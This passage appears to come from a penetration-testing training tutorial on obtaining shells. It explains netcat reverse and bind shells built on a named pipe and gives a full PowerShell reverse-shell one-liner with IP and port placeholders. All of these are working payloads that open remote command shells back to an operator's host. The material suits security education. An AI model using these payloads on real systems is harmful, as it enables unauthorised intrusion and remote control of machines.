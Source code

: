 Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

![](https://i.imgur.com/se5Fyn3.png)

A very similar command can be used to send a netcat reverse shell:

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

![](https://i.imgur.com/Xf0hA5p.png)

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```ps1
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![](https://i.imgur.com/T6o7kOL.png)

For other common reverse shell payloads, [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

